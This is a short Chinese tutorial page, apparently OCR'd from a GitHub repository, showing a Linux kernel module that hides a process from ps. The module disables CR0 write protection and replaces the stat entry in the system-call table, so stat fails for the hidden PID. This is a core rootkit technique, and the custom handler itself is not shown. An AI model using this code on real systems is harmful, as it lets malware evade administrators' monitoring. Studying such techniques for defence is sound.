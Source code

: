 ps通过系统调用stat读取文件元信息，成功后调用openat打开文件然后读文件信息。

通拓截获系统调用stat，如果要读取的是需要隐藏的进程的信息，就返回-1表现出读取stat失败的假象，ps就无法继续open并read进程信息，也就无法显示该进程的信息。

编写模块，在init时启动线程，并在线程中截获系统调用，模块退出时将系统调用改回。

```c
static int __init thread_init(void)
{

        kthread_run(test, NULL, "test_thread");
        // pid = st->pid;
        // printk("spying on <pid> %ld\n", pid);
        return 0;
}

static void __exit thread_exit(void)
{
        cr0 = read_cr0();
        write_cr0(cr0 & ~CR0_WP);
        sys_call_table[__NR_stat] = original_call;
        write_cr0(cr0);

        return;
}

module_init(thread_init);
module_exit(thread_exit);
MODULE_LICENSE("GPL");
```

线程内容：

先劫持系统调用stat，用自己的系统调用替换，将pid写入buf中。sleep 10s，然后修改buf的值，sleep 20s

```c
int test(void *input)
{
        int i;
        // struct task_struct *st;
        cr0 = read_cr0();
        write_cr0(cr0 & ~CR0_WP);
        original_call = sys_call_table[__NR_stat];
        sys_call_table[__NR_stat] = my_sys_stat;
        write_cr0(cr0);

        itoa(current->pid, buf + 6);
        printk("U can't see me(<pid> %d) now!\n", current->pid);
        printk("but 10s later you will see me\n");
        for (i = 0; i < 100; ++i)
                msleep(100);
        buf[6] = 0;
        printk("I'll exit after 20s.\n");
        msleep(20000);
        return 0;
}
```

